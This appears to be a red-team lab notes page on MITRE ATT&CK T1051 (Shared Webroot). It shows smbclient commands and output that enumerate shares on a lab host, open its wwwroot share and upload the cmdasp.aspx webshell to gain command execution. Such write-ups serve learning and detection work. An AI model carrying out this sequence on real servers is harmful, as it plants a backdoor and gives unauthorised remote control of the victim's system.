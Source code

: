 ```yaml
---
description: Lateral Movement
---
```


# T1051: Shared Webroot

## Execution

Enumerating victim host `10.0.0.6` for any shares:

{% code title="attacker@local" %}
```csharp
smbclient -L //10.0.0.6 -U spot

WARNING: The "syslog" option is deprecated
Enter WORKGROUP\spot's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	CertEnroll      Disk      Active Directory Certificate Services share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
	temp            Disk      
	tools           Disk      
	transcripts     Disk      
	wwwroot         Disk      
```
{% endcode %}

Logging in to the `wwwroot` share:

{% code title="attacker@local" %}
```csharp
smbclient //10.0.0.6/wwwroot -U spot

WARNING: The "syslog" option is deprecated
Enter WORKGROUP\spot's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Aug 25 16:57:52 2018
  ..                                  D        0  Sat Aug 25 16:57:52 2018
  aspnet_client                       D        0  Tue Jul 31 20:11:20 2018
  iis-85.png                          A    99710  Tue Jul 31 19:35:48 2018
  iisstart.htm                        A        3  Tue Jul 31 19:38:23 2018
```
{% endcode %}

Uploading a webshell into the `wwwroot`:

```csharp
put /usr/share/webshells/aspx/cmdasp.aspx c.aspx

putting file /usr/share/webshells/aspx/cmdasp.aspx as \c.aspx (341.8 kb/s) (average 341.8 kb/s)
smb: \> ls
  .                                   D        0  Sat Aug 25 16:59:47 2018
  ..                                  D        0  Sat Aug 25 16:59:47 2018
  aspnet_client                       D        0  Tue Jul 31 20:11:20 2018
  c.aspx                              A     1400  Sat Aug 25 16:59:47 2018
  iis-85.png                          A    99710  Tue Jul 31 19:35:48 2018
  iisstart.htm                        A        3  Tue Jul 31 19:38:23 2018

		6463487 blocks of size 4096. 3032260 blocks available
```

Same as above in a picture:

![](../../.gitbook/assets/webroot-ownage.png)

Attacker can now access the newly uploaded webshell via `http://10.0.0.6/c.aspx` and start executing commands:

![](../../.gitbook/assets/webroot-rce.png)

## Observations

See T1108: Webshells for observations:

{% page-ref page="../privilege-escalation/t1108-redundant-access.md" %}

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1051" %}

